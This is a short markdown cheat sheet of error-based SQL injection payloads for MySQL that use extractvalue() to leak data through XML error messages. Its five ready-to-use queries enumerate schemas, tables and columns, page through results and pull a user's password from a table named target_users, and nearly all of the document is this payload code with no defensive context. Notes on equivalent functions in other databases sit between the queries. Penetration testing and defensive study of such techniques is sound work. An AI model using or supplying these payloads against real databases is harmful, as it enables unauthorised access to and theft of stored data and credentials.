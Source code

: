 
# SQL Injection Commands Using `extractvalue()` for Data Exfiltration

These commands use MySQL's `extractvalue()` function to leak data through XML error messages. This technique is useful when other output methods are blocked during SQL injection attacks.

---

## 1. List All Database Schemas

```sql
extractvalue('', concat('>', (
  select group_concat(table_schema) 
  from (
    select table_schema 
    from information_schema.tables 
    group by table_schema
  ) as foo
)))
```

**Purpose**: Retrieve all database names on the server.

The group_concat() function is unique to MySQL. Current versions of Microsoft SQL Server and PostgreSQL have a very similar STRING_AGG() function. Additionally, current versions of Oracle DB have a LISTAGG() function that is similar to the STRING_AGG() functions.

---

## 2. List All Tables in the `target` Database

```sql
extractvalue('', concat('>', (
  select group_concat(table_name) 
  from (
    select table_name 
    from information_schema.tables 
    where table_schema='target'
  ) as foo
)))
```

**Purpose**: Enumerate all tables in the `target` database.

---

## 3. Paginated Table Names in `target` (Limit + Offset)

```sql
extractvalue('', concat('>', (
  select group_concat(table_name) 
  from (
    select table_name 
    from information_schema.tables 
    where table_schema='target' 
    limit 2 offset 32
  ) as foo
)))
```

**Purpose**: Retrieve 2 table names starting from the 33rd entry in the `target` database (pagination).

---

## 4. List Columns in the `target_users` Table

```sql
extractvalue('', concat('>', (
  select group_concat(column_name) 
  from (
    select column_name 
    from information_schema.columns 
    where table_schema='target' 
      and table_name='target_users'
  ) as foo
)))
```

**Purpose**: List column names in the `target_users` table.

Microsoft SQL Server has a nearly identical SUBSTRING() function and Oracle DB has a SUBSTR() function that takes the same parameters. PostgreSQL has two different functions for substrings. The MySQL SUBSTRING() function follows the same parameter format as the SUBSTR() function. The SUBSTRING() function must include a from or for keyword in the function call.

---

## 5. Extract First 32 Characters of First User Password

```sql
extractvalue('', concat('>', (
  select substring(password, 1, 32) 
  from target_users 
  limit 1 offset 0
)))
```

**Purpose**: Leak the first 32 characters of the password for the first user in the `target_users` table.

---
